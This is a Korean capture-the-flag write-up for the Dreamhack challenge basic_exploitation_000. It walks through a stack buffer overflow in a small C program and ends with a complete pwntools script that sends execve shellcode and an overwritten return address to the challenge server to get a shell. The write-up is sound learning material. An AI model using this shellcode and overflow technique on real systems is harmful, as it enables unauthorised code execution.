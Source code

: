 # [basic_exploitation_000](https://dreamhack.io/wargame/challenges/2/) 

 문제 파일의 코드는 다음과 같다. 주석은 코드의 해석을 위하여 본인이 직접 작성한 것이다.

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0); // 표준 입력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다. 
    setvbuf(stdout, NULL, _IONBF, 0); // 표준 출력에서 버퍼를 사용하지 않는다. 버퍼를 지나지 않고 요청 즉시 작업이 진행된다.

    signal(SIGALRM, alarm_handler); // SIGALRM이 발생하면 alarm_handler를 실행한다.
    alarm(30); // 30초 후에 SIGALRM을 발생시킴.
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    printf("buf = (%p)\n", buf); //buf의 주소 값을 출력
    scanf("%141s", buf);

    return 0;
}
```

## Exploit strategy
 유심히 봐야할 코드는 scanf("%141s", buf); 이다. buf의 크기는 0x80 = 128 byte이므로 scanf를 통하여 buf의 크기보다 더 많은 양의 데이터를 입력할 수 있다. 이를 이용하여 스택 버퍼 오버 플로우를 발생시키면 된다. pwndbg를 통하여 주어진 바이너리 파일의 main함수를 disassemble하여 살펴보자. 
 
```assembly 
   0x080485d9 <+0>:     push   ebp
   0x080485da <+1>:     mov    ebp,esp
   0x080485dc <+3>:     add    esp,0xffffff80
   0x080485df <+6>:     call   0x8048592 <initialize>
   0x080485e4 <+11>:    lea    eax,[ebp-0x80]
   0x080485e7 <+14>:    push   eax
   0x080485e8 <+15>:    push   0x8048699
   0x080485ed <+20>:    call   0x80483f0 <printf@plt>
   0x080485f2 <+25>:    add    esp,0x8
   0x080485f5 <+28>:    lea    eax,[ebp-0x80] // 오버플로우를 발생시킬 버퍼는 ebp-0x80에 위치함. 
   0x080485f8 <+31>:    push   eax
   0x080485f9 <+32>:    push   0x80486a5
   0x080485fe <+37>:    call   0x8048460 <__isoc99_scanf@plt>
   0x08048603 <+42>:    add    esp,0x8
   0x08048606 <+45>:    mov    eax,0x0
   0x0804860b <+50>:    leave
   0x0804860c <+51>:    ret
```

lea eax,[ebp-0x80]를 보면 오버플로우를 발생시킬 버퍼는 ebp-0x80에 위치함을 알 수 있다. 스택 프레임의 구조를 떠올려보자. ebp에는 SFP가 저장되므로 ebp+0x4(공격 대상 컴퓨터는 32bit이므로 포인터 크기는 4바이트이기 때문이다.)에 return address가 저장될 것임을 알 수 있다. 그런데 return address에 shell code를 넣을 수는 없다. 우리가 사용할 쉘코드는 26바이트이기 때문이다.(scanf는 \x09, \x0a, \x0b, \x0c, \x0d, \x20를 읽지 못하는데 25byte인 일반적인 shell code는 \x0b를 포함하므로 사용할 수 없다.) 따라서 return address에 buf의 주소를 넣고 buf안에 shell code를 넣어 shell code를 실행시킬 것이다.이제 Exploit script를 작성해보자. 

## Exploit script

```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host1.dreamhack.games',21920) 

# 공격 대상 아키텍쳐는 x86
context.arch = 'i386' 

# buf의 주소 값을 담는 작업
p.recvuntil('buf = (') #  주소 값을 따로 저장하기위해 'buf = (' 까지만 받는다.
buf_addr = int(p.recv(10),16) # 문자열로 받은 주소 값을 16진수 정수로 변환하여 저장
p.recvline() # 남은 ")\n" 처리

# payload 작성
payload = b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80" # 버퍼에 담을 26byte shell code
payload += b"\x90"*(132-26) # ebp+0x3까지 담을 더미 값 
payload += p32(buf_addr) # return address에 들어갈 buf의 주소 값을 32bit packing(little endian의 byte 배열로 변경)

# payload + '\n'을 전송
p.sendline(payload) 

# 셸을 획득했으므로 interactive 함수 사용
p.interactive()
```


